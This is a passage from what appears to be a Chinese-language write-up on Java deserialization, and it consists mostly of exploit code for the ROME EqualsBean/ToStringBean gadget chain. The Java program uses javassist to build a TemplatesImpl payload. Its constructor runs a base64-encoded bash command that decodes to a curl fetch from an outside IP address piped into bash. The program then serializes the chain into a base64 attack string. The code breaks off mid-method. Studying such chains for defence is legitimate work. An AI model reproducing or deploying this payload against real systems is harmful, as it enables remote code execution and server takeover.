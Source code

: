 这里是相对应的（还要注意顺序，都是第一个put，因为只会调用一次AbstractMap），顺序是跟进map2的aa来看的（即value.equals）

## EqualBean的hashCode

这条链子要稍微比Y4的长几十

```
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Hashtable;

public class Test {
    public static void main(String[] args) throws Exception{

        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"bash -c {echo,Y3VybCA0Ny45My4yNDguMjIx772cYmFzaA==}|{base64,-d}|{bash,-i}\");");
        clazz.addConstructor(constructor);
        byte[][] bytes1 = new byte[][]{clazz.toBytecode()};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes1);
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates, "_class", null);

        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
        EqualsBean equalsBean = new EqualsBean(Object.class,toStringBean);

        Hashtable hashtable = new Hashtable();
        hashtable.put(equalsBean,"a");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashtable);
        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(base64);
        System.out.println(base64.length());
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
```